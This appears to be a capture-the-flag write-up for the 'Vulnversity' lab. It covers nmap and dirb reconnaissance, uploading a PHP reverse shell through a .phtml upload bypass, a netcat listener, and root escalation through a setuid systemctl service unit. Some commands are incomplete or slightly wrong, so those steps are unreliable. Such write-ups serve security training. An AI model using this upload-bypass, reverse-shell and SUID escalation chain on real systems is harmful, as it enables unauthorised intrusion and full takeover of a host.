 ```yaml
---
layout: default
---
```


## Vulnversity  
Focuses on active recon, Web app attacks and privilege escalation 
### Reconnaissance
Gathering information about the machine using tools such as nmap. 
Always perform reconnaissance thoroughly before progressing. 

#### Nmap

    nmap -v -A -sV -sC -A -p- -Pn -oN nmap.out 10.10.228.44

-A : Aggressive Scan and provides OS and Version Detection 
-sV : Discovers the Services with their versions 
-sC: Scan with default nmap scripts 
-p-: Scan all 65535 ports
-Pn: Disable the host discovery and perform only scan on open ports. 
-oN: Save the output in a file 

*Result:*
- The target has below ports open
- Operating System: Ubuntu 
- Services: 
	 - HTTP - 3333 
	 - SSH - 
	 - 
 ### Scanning HTTP service 
 Using dirb scan the HTTP service to find the directories. 

    dirb http://10.10.228.44:3333/ /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt 

*Result* 
                                                 
    GENERATED WORDS: 87568      
    ---- Scanning URL: http://10.10.228.44:3333/ ----
    ==> DIRECTORY: http://10.10.228.44:3333/images/                                                                      
    ==> DIRECTORY: http://10.10.228.44:3333/css/                                                                         
    ==> DIRECTORY: http://10.10.228.44:3333/js/                                                                          
    ==> DIRECTORY: http://10.10.228.44:3333/fonts/                                                                       
    ==> DIRECTORY: http://10.10.228.44:3333/internal/   

Navigate to these directories and found `/internal/` is hosting a upload page. 

### Get a reverse shell
- Using Burp, found the site is accepting the phtml extension in upload page.
- Using the [exploit](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php), configured the listening host and port and uploaded the php reverse shell code to the target. 
- Opened the netcat on the listening host and port.
  `nc -nlvp 4444` 
- Execute the uploaded file by navigating to /internal/uploads/ and the reverse shell connection is established. 

### Privilege Escalation 

 - Found the server has mis-configuration  with setuid bit on /bin/systemctl 
 `find / -perm /4000 -type f -exec -ld {} \; 2>/dev/null`
 - Created a new service by: 
 - 

    echo '[Service]
     ExecStart=/bin/sh -c "cp /root/root.txt > /tmp/flag.txt" 
     [Install]
     WantedBy=multi-user.target' > $eob
- Started the service: 

    /bin/systemctl link $eob
    /bin/systemctl enable --now $eob

- The file was written to desired file in /tmp and thus able to escalate the privileges. 


